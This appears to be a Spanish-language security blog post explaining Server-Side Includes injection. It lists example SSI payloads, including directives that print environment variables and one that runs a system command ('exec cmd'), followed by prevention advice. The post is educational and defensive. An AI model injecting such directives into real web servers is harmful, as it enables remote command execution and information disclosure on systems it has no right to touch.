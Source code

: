 ```yaml
---
date: 2025-10-20T21:51:05.000Z
layout: post
comments: true
title: "Server-Side Includes Injection"
subtitle: 'SSI'
description: >-
image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssilogo.png
optimized_image: >-
  https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/ssilogo.png
category: ciberseguridad
tags:
  - web
  - rce
  - owasp
  - php
  - ssi
author: Felipe Canales Cayuqueo
paginate: true
---
```


**Server-Side Includes (SSI)** es una técnica usada por servidores web para insertar contenido dinámico en páginas HTML estáticas mediante directivas especiales (por ejemplo `<!--#include ...-->`). Habitualmente aparece en archivos con extensiones como `.shtml`, `.shtm` o `.stm`, aunque el servidor puede configurarse para procesarlas en otras extensiones.

La **inyección SSI** ocurre cuando un atacante logra que directivas SSI controladas por él se escriban o sirvan desde el servidor (por ejemplo subiendo un archivo con directivas al directorio raíz web o haciendo que la app guarde entrada del usuario en un archivo servible). Si el servidor procesa esas directivas, el atacante puede ejecutar comandos, incluir archivos o filtrar variables de entorno, lo que implica riesgo de divulgación de información o ejecución remota.

### Payloads

#### Printenv 

Directiva que imprime variables de entorno.

```
<!--#printenv -->
```

#### Config

Esta directiva cambia la configuración de SSI especificando los parámetros correspondientes.

```
<!--#config errmsg="Error!" -->
```

#### Eco

Esta directiva imprime el valor de cualquier variable dada en el var parámetro. 

* DOCUMENT_NAME: el nombre del archivo actual.
* DOCUMENT_URI: la URI del archivo actual.
* LAST_MODIFIED: marca de tiempo de la última modificación del archivo actual.
* DATE_LOCAL: hora del servidor local.

```
<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->
```

#### Exec

Esta directiva ejecuta comandos en el sistema.

```
<!--#exec cmd="whoami" -->
```

#### Include

Esta directiva permite la inclusión de archivos en el directorio raíz web.

```
<!--#include virtual="index.html" -->
```

### Recomendaciones

Las principales medidas de prevención frente a la inyección SSI consisten en que los desarrolladores valíden y desinfecten rigurosamente toda entrada del usuario, especialmente aquella que pueda insertarse en archivos procesados por el servidor. También deben configurar el servidor web para limitar el uso de SSI únicamente a ciertas extensiones o directorios autorizados, reduciendo así la superficie de ataque. Además, es recomendable restringir o deshabilitar directivas peligrosas como exec cuando no sean estrictamente necesarias, y aplicar políticas de configuración seguras que impidan la ejecución o inclusión de código no autorizado dentro de las páginas servidas.



